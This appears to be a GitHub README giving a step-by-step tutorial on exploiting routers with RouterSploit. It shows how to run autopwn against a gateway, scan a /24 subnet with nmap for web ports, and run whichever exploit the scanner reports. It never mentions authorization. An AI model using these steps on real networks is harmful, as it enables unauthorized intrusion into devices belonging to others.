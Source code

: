 ## IN THIS TOTURIAL YOU WILL LEARN HOW TO EXPLOIT A ROUTER USING ROUTERSPLOIT.



STEP 1:  sudo routersploit 

STEP 2:  sudo python ./rsf.py (if you are git cloning router repo then you will use this command in the routersploit directory to run it (https://github.com/threat9/routersploit))

STEP 3:  use scanners/autopwn

STEP 4:  show options

STEP 5:  set target 192.168.0.1

STEP 6:  run

STEP 7:  now open second terminal and run nmap command to check whether there are any open ports on the network or not 

STEP 8:  nmap -p 80,8080,8081,81 192.168.0.0/24

STEP 9:  now copy the ip address and paste in the browser with :port number (192.168.0.9:81)

STEP 10:  now we will exploit this using the routersploit 

STEP 11:  set target 192.168.0.? (enter the ip which you coppied from nmap)

STEP 12:  set port to 81 (type the port which you selected in nmap )

STEP 13:  run

STEP 14:  now if the device is vulnerable then it will show in results then just copy the exploit 

STEP 15:  use (paste the exploit which was shown above in device is vulnerable)

STEP 16:  set target 192.168.0.? (enter the target ip which is vulnerable and we used earlier)

STEP 17:  set port 81 (use the port which was used earlier and was vulnerable )

STEP 18:  check

STEP 19:  run 













____________________________________________________________________________________________________________________________________________
▶ Name: StromWise

▶ Role: Creator

▶ Location: Unknown

▶ GitHub: https://github.com/stromwise 

▶ Instagram: https://www.instagram.com/stromwise/ 

▶ Facebook: https://www.facebook.com/profile.php?id=100093706328777

▶ Youtube: https://www.youtube.com/channel/UC-tafc0TqgZNnQio8Gj-hjg 

▶ Twitter: https://twitter.com/StromWise 
____________________________________________________________________________________________________________________________________________



